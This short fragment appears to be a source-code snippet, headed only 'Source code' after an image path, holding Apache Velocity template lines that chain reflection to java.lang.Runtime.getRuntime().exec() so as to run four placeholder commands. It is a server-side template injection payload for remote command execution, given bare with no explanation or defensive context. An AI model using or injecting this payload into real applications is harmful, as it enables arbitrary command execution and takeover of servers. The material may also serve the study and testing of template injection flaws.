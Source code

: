 #set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd0))
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd1))
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd2))
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd3))
